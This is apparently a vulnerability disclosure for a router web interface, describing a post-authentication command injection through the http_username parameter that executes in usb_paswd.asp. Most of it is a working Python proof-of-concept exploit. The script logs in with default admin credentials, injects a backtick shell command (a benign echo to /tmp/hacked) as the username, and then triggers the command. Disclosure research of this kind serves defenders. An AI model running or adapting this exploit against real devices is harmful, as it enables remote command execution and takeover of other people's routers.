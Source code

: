 After the user maliciously constructs the parameter http_username, accessing the function usb_paswd_asp in the file usb_paswd.asp will cause post-authentication command injection. The attack can be launched remotely.

![image](https://github.com/user-attachments/assets/fc945338-d12a-49a0-a922-b13768e661f1)

Capture packets in the user management interface to modify the user name to malicious commands

![image](https://github.com/user-attachments/assets/72d3e973-9e38-4e72-bb19-c0b7a193a0a1)

set username:\`echo HELLOWORLD > /tmp/hacked\`

![image](https://github.com/user-attachments/assets/46208859-b1cf-48cd-b0c3-04db399d752a)

payload = /usb_paswd.asp?share_enable=1&passwd=1&name=1

![image](https://github.com/user-attachments/assets/1d094768-7262-4af3-836b-e69294933fd2)

![image](https://github.com/user-attachments/assets/b8f8c4c5-1b62-43f3-90c6-8770d461ccdf)

#POC


```python
import requests

# POST /login.cgi HTTP/1.1
# Host: 192.168.0.1
# Content-Length: 25
# Cache-Control: max-age=0
# Upgrade-Insecure-Requests: 1
# Origin: http://192.168.0.1
# Content-Type: application/x-www-form-urlencoded
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Referer: http://192.168.0.1/login.html
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: wys_userid=hello,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632
# Connection: close

# user=admin&password=admin
login_url = "http://192.168.0.1/login.cgi"  
login_headers = {
    "Host": "192.168.0.1",
    "Content-Length": "25",
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.1",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.1/login.html",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "wys_userid=hello,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632",
    "Connection": "close"
}
login_data = {
    "user": "admin",
    "password": "admin"
}
response = requests.post(login_url, headers=login_headers, data=login_data)
print(response.text)

print("---------------------------------------------------------------------------------------------------")


# GET /webgl.asp?http_username=hello&exec_service=admin-restart&_=1726142513541 HTTP/1.1
# Host: 192.168.0.1
# Accept: application/json, text/javascript, */*
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Referer: http://192.168.0.1/index.htm?_1420041819
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632
# Connection: close

cmd = "`echo HELLOWORLD > /tmp/hacked`" 
burp0_url = f"http://192.168.0.1/webgl.asp?http_username={cmd}&exec_service=admin-restart&_=1726142513541"
burp0_headers = {
    "Host": "192.168.0.1",
    "Accept": "application/json, text/javascript, */*",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Referer": "http://192.168.0.1/index.htm?_1420041819",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632",
    "Connection": "close"
}
response = requests.get(burp0_url, headers=burp0_headers)
print(response.text)

print("---------------------------------------------------------------------------------------------------")

# GET /usb_paswd.asp HTTP/1.1
# Host: 192.168.0.1
# Upgrade-Insecure-Requests: 1
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632
# Connection: close

burp1_url = "http://192.168.0.1/usb_paswd.asp?share_enable=1&passwd=1&name=1"
burp1_headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632",
    "Connection": "close"
}
response = requests.get(burp1_url, headers=burp1_headers)
print(response.text)
```
